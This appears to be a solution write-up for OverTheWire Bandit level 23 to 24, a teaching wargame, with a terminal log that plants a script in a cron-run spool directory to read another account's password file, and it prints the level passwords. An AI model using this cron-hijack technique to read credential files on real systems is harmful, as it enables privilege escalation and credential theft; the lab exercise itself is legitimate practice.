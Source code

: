 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel
banidt23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solución
```
bandit23@bandit:~$ ls -la /etc/cron.d
total 56
drwxr-xr-x   2 root root  4096 Oct  5 06:20 .
drwxr-xr-x 106 root root 12288 Oct  5 06:20 ..
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit22
-rw-r--r--   1 root root   122 Oct  5 06:19 cronjob_bandit23
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit24
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Oct  5 06:20 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/ja
bandit23@bandit:~$ cd /tmp/ja
bandit23@bandit:/tmp/ja$ nano con24.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory


Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/ja$ cat con24.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/ja/password
bandit23@bandit:/tmp/ja$ chmod +rx con24.sh
bandit23@bandit:/tmp/ja$ chmod 777 /tmp/ja
bandit23@bandit:/tmp/ja$ touch password
bandit23@bandit:/tmp/ja$ ls
con24.sh  password
bandit23@bandit:/tmp/ja$ chmod +rwx password
bandit23@bandit:/tmp/ja$ cp con24.sh /var/spool/bandit24/con24.sh
cp: cannot create regular file '/var/spool/bandit24/con24.sh': Operation not permitted
bandit23@bandit:/tmp/ja$ cp con24.sh /var/spool/bandit24/
cp: cannot create regular file '/var/spool/bandit24/con24.sh': Operation not permitted
bandit23@bandit:/tmp/ja$ nano con24.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/ja$ cp con24.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/ja$ cat password
bandit23@bandit:/tmp/ja$ chmod 666 password
bandit23@bandit:/tmp/ja$ cp con24.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/ja$ cat password
bandit23@bandit:/tmp/ja$ cp con24.sh /var/spool/bandit24/
cp: cannot create regular file '/var/spool/bandit24/con24.sh': Operation not permitted
bandit23@bandit:/tmp/ja$ cp con24.sh /var/spool/bandit24/foo/con24.sh
bandit23@bandit:/tmp/ja$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/ja$
```
## Notas adicionales
## Referencias 
